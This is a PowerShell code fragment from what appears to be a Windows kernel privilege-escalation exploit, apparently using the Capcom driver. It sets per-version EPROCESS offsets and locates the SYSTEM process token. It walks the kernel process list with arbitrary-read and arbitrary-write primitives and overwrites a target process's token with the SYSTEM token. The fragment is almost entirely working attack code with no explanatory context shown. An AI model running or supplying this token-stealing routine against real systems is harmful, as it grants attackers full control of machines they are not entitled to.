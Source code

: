```
    $OSVersion = [Version](Get-WmiObject Win32_OperatingSystem).Version
    $OSMajorMinor = "$($OSVersion.Major).$($OSVersion.Minor)"
    switch ($OSMajorMinor)
    `{`
        '10.0' # Win10 / 2k16
        `{`
            $UniqueProcessIdOffset = 0x2e8
            $TokenOffset = 0x358          
            $ActiveProcessLinks = 0x2f0
        `}`
        '6.3' # Win8.1 / 2k12R2
        `{`
            $UniqueProcessIdOffset = 0x2e0
            $TokenOffset = 0x348          
            $ActiveProcessLinks = 0x2e8
        `}`
        '6.2' # Win8 / 2k12
        `{`
            $UniqueProcessIdOffset = 0x2e0
            $TokenOffset = 0x348          
            $ActiveProcessLinks = 0x2e8
        `}`
        '6.1' # Win7 / 2k8R2
        `{`
            $UniqueProcessIdOffset = 0x180
            $TokenOffset = 0x208          
            $ActiveProcessLinks = 0x188
        `}`
    `}`
    # Get EPROCESS entry for System process
    $SystemModuleArray = Get-LoadedModules
    $KernelBase = $SystemModuleArray[0].ImageBase
    $KernelType = ($SystemModuleArray[0].ImageName -split "\")[-1]
    $KernelHanle = [Capcom]::LoadLibrary("$KernelType")
    $PsInitialSystemProcess = [Capcom]::GetProcAddress($KernelHanle, "PsInitialSystemProcess")
    $SysEprocessPtr = $PsInitialSystemProcess.ToInt64() - $KernelHanle + $KernelBase
    $CallResult = [Capcom]::FreeLibrary($KernelHanle)
    $SysEPROCESS = Bitmap-Read -Address $SysEprocessPtr
    $SysToken = Bitmap-Read -Address $($SysEPROCESS+$TokenOffset)
    Write-Output "`n[+] SYSTEM Token: 0x$("`{`0:X`}`" -f $SysToken)"
    # Get EPROCESS entry for PID
    $NextProcess = $(Bitmap-Read -Address $($SysEPROCESS+$ActiveProcessLinks)) - $UniqueProcessIdOffset - [System.IntPtr]::Size
    while($true) `{`
        $NextPID = Bitmap-Read -Address $($NextProcess+$UniqueProcessIdOffset)
        if ($NextPID -eq $ProcPID) `{`
            $TargetTokenAddr = $NextProcess+$TokenOffset
            Write-Output "[+] Found PID: $NextPID"
            Write-Output "[+] PID token: 0x$("`{`0:X`}`" -f $(Bitmap-Read -Address $($NextProcess+$TokenOffset)))"
            break
        `}`
        $NextProcess = $(Bitmap-Read -Address $($NextProcess+$ActiveProcessLinks)) - $UniqueProcessIdOffset - [System.IntPtr]::Size
    `}`
    # Duplicate token!
    Write-Output "[!] Duplicating SYSTEM token!`n"
    Bitmap-Write -Address $TargetTokenAddr -Value $SysToken
`}`
```
